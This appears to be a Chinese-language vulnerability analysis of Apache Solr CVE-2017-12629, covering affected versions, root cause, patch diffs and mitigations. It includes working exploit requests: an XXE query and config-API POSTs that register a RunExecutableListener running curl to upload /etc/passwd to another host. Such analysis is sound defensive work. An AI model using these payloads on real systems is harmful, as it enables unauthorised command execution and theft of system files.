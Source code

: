 ## Apache Solr XML外部实体扩展和命令执行漏洞(CVE-2017-12629)漏洞分析

### 0x00 事件描述

Apache-Solr是一个企业级搜索服务器，对外提供类似于Web-service接口，基于Lucene开发。

Apache Lucene/Solr团队在2017年10月12日发布了0day攻击预警(CVE-2017-12629)该漏洞可导致信息泄露和远程命令执行。官方更新了7.1版本来修复此漏洞。而且某些RedHat产品使用了相关漏洞组件，可能受到此漏洞影响[参考1]。

经过分析验证，确认该漏洞确实存在，有关漏洞攻击脚本已经在网络中公开[参考2]，请相关用户尽快处理.


### 0x01 事件影响面
注:部分信息来自[参考1]和[参考3]

#### 影响面

该攻击事件可能影响到使用了Apache-Solr企业级搜索服务器和使用lucene相关组件的用户。

#### 影响版本

Apache-Solr 小于7.1版本都有可能受到rce攻击影响，xxe的影响版本在5.1-7.0.1 

|Platform |	Package | 	State |
|---------|:---------:|---------:|
|Red Hat Software Collections for Red Hat Enterprise Linux |rh-java-common-lucene 	|Affected|
|Red Hat Software Collections for Red Hat Enterprise Linux |rh-java-common-lucene5 	|Affected|
|Red Hat JBoss EAP 7 	|lucene 	|Affected|
|Red Hat JBoss Data Grid 7| 	lucene |	Affected|
|Red Hat Enterprise Linux 6|	lucene |	Will not fix|



### 0x02 漏洞信息

该CVE存在两个漏洞，Lucene的XML解析器在5.5版本才被导入[参考4]，在文档内允许文档类型定义和外部实体，可以造成XXE攻击；Solr的配置中有一个API:add-listener，通过这个API可以创建一个RunExecutableListener实例，导致远程命令执行，这个API只在solr中出现，而不是Lucene。官方在更新的7.1版本中移除了造成命令执行漏洞的RunExecutableListener模块，对造成XXE漏洞的XML解析器进行了修复

#### XML外部实体扩展漏洞

solr的查询流程从SolrDispatchFilter的dofilter开始，在Solr里面，使用QParse来处理查询解析，在查询语句中可以构造type=xmlparse就会使solr调用QparserPlugin的子类xmlQParsePlugin来对查询语句进行处理，造成xxe漏洞
	
slor服务器启动cloud实例


	solr start -c

创建集合

	http://localhost:8983/solr/admin/collections?action=CREATE&name=test&numShards=2&maxShardsPerNode=2

执行命令查询传入xml查询子句，可以通过监听本机4444端口收到http请求

	http://localhost:8983/solr/test/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "http://localhost:4444/test"><a></a>'}

调用栈如图所示,调用xmlparse解析器，查询子句引用外部实体
![](https://raw.githubusercontent.com/SuperXiaoxiong/SuperXiaoxiong.github.io/master/img/picture1.PNG)

最后在xmlQParsePlugin实例中调用第三方xml处理库javax.xml.parsers.DocumentBuilder和javax.xml.parsers.DocumentBuilderFactory解析xml，在没有对DTD，Entity做足够的安全处理下造成xxe漏洞

#### 命令执行漏洞

先通过向collection的config添加监听类RunExecutableListener，再通过向collection中添加数据来触发监听类执行命令，执行payload，造成任意命令执行

发起请求给集合添加或更新RunExecutableListener类

	POST /solr/test/config HTTP/1.1
	Host: localhost:8983
	Connection: close
	Content-Type: application/json  
	Content-Length: 226
	
	{
	  "update-listener" : {
	   "event":"postCommit",
	   "name":"newlistener",
	   "class":"solr.RunExecutableListener",
	   "exe":"curl",
	   "dir":"/usr/bin/",
	   "args":["-F","value=@/etc/passwd","http://127.0.0.1:9090"]
	  }
	}

如果add报错可以使用update

初始化一个RunExecutableListener实例
![](https://raw.githubusercontent.com/SuperXiaoxiong/SuperXiaoxiong.github.io/master/img/picture2.PNG)

提交数据即可触发命令执行

	POST /solr/test/update HTTP/1.1
	Host: localhost:8983
	Connection: close
	Content-Type: text/xml 
	Content-Length: 516
	
	<add>
	  <doc>
	    <field name="authors">SuperX</field>
	  </doc>
	</add>



在未授权用户无法直接访问向Solr服务器Config的API时通过构造xxe和RCE组合payload[参考2]既可以实现远程代码执行，并做一个简单的代码执行验证，虽然返回报错，但是可以看到命令已经执行
![](https://raw.githubusercontent.com/SuperXiaoxiong/SuperXiaoxiong.github.io/master/img/picture3.png)

#### 漏洞修复

1. 修复xml解析器

Java对于xxe修复一般通过禁用外部实体解析来完成。
![](https://raw.githubusercontent.com/SuperXiaoxiong/SuperXiaoxiong.github.io/master/img/xxe_7_0.PNG)

通过对比可以看到，添加了```dbf.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true)```

查看官网描述当```XMLConstants.FEATURE_SECURE_PROCESSING```是true的话the implementation will limit XML processing to conform to implementation limits. Examples include enity expansion limits and XML Schema constructs that would consume large amounts of resources. If XML processing is limited for security reasons, it will be reported via a call to the registered ErrorHandler.fatalError(SAXParseException exception)，对xml处理的时候进行限制处理，例如限制 实体扩展和xml造成dos情况，如果处理过程中触发了限制会报告给SAXParseException.就是说对实体扩展和dos，xxe攻击做了限制

![](https://raw.githubusercontent.com/SuperXiaoxiong/SuperXiaoxiong.github.io/master/img/xxe_7_1.PNG)

2. 修复任意命令执行

直接删掉了RunExecutableListener类，避免了命令执行

### 0x03 修复方案

1. 升级到7.1最新版本
2. 使用参数-Ddisable.configEdit=true来运行Solr实例
3. 经过实践发现，对solr未授权访问进行控制，效果更实际

### 0x04 时间线

2017-10-12 事件披露

2017-10-21 完成漏洞分析

### 0x05 参考链接

1. http://mail-archives.us.apache.org/mod_mbox/www-announce/201710.mbox/%3C018601d343b3$53868c50$fa93a4f0$@apache.org%3E
2. https://www.exploit-db.com/exploits/43009/
3. https://access.redhat.com/security/cve/cve-2017-12629
4. http://lucene.apache.org/solr/5_5_0/solr-core/org/apache/solr/search/QParserPlugin.html

### 0x06 补充

看到创宇报告，遗漏newSearcher也可以直接触发命令执行

如果已经有listener监听器，可以使用新的name或者直接update-listener进行覆盖，本来是准备写成部门预警通告，结果不用发了，有点小遗憾，就上传到自己博客做成漏洞分析报告吧。


	POST /solr/test/config HTTP/1.1
	Host: localhost:8983
	Connection: close
	Content-Type: application/json  
	Content-Length: 226
	
	{
	  "add-listener" : {
	   "event":"newSearcher",
	   "name":"newlistener",
	   "class":"solr.RunExecutableListener",
	   "exe":"curl",
	   "dir":"/usr/bin/",
	   "args":["-F","value=@/etc/passwd","http://127.0.0.1:9090"]
	  }
	}







